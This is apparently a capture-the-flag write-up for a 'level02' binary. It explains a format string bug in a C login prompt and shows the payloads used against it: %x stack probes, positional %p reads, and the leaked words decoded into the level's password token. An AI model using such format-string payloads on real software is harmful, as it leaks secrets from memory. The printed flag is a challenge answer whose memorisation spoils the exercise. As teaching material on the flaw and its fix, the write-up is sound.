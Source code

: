 # LEVEL 02

## Vulnerability identification

### Format string vulnerability

Critical line:

```c
printf(local_78);
```

It should have been:

```c
printf("%s", local_78);
```

Consequence: by supplying format specifiers (`%x`, `%p`, `%s`, `%n`) in the username, an attacker can:

- read stack memory;
- access variables stored on the stack;
- or write to memory (with `%n`).

---

## Exploitation

### Step 1 — probing the stack with `%x`

Initial test:

```bash
Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Password: test
```

Example output (truncated):

```bash
AAAA ffffe500 0 78 2a2a2a2a 2a2a2a2a ffffe6f8 f7ff9a08 78252078 25207825 20782520
78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520
252078 0 34376848 61733951 574e6758 6e475873 664b394d feff00 41414141 ....
#                              string terminator ---> ^^^^^^ ^^^^^^^^ <--- our input
```

### Step 2 — analyze the values

Positionally you can see several words that correspond to the password bytes.

- 22: `34376848` — start of the password
- 23: `61733951`
- 24: `574e6758`
- 25: `6e475873`
- 26: `664b394d`
- 27: `feff00` — string terminator
- 28: `41414141` — our `AAAA` input

Observation: the password read from `.pass` is stored on the stack and is therefore leakable via the format-string vulnerability.

### Step 3 — use `%p` on 64-bit systems

Problem: on 64-bit systems `%x` prints 4 bytes (32-bit) while stack values are 8-byte pointers. Use `%p` to read 8 bytes at a time.

command:

```bash
echo "%22\$p %23\$p %24\$p %25\$p %26\$p" | ./level02
```

output:

```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
```

And without the `0x`/leading formatting (clean hex):

```
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d
```

---

## Decoding the password

You can decode the leaked values using a hex-to-bytes conversion, then swap endianness per 8-byte word.



Token found using CyberChef [(full manipulation)](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,true)From_Hex('Space')&input=NzU2ZTUwNTIzNDM3Njg0OCA0NTQxNGEzNTYxNzMzOTUxIDM3N2E3MTQzNTc0ZTY3NTggMzU0YTM1Njg2ZTQ3NTg3MyA0ODMzNjc1MDY2NGIzOTRk): `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
